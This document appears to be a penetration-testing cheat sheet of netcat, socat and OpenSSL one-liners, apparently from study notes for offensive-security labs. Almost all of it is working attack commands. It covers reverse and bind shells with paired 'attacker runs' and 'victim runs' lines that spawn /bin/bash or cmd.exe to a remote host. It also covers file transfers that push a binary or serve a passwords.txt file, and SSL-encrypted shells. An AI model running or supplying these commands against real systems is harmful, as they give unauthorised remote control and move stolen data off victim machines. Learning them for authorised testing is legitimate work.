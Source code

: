 # Utilities 
useful CLI utilities 

## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
`socat TCP4:{ip-address}:443 file:passwords.txt,create`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
 - socat listener utilizing the cert
 	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
 - socat SSL connection to listener
 	- `socat - OPENSSL:{ip-address}:443,verify=0`
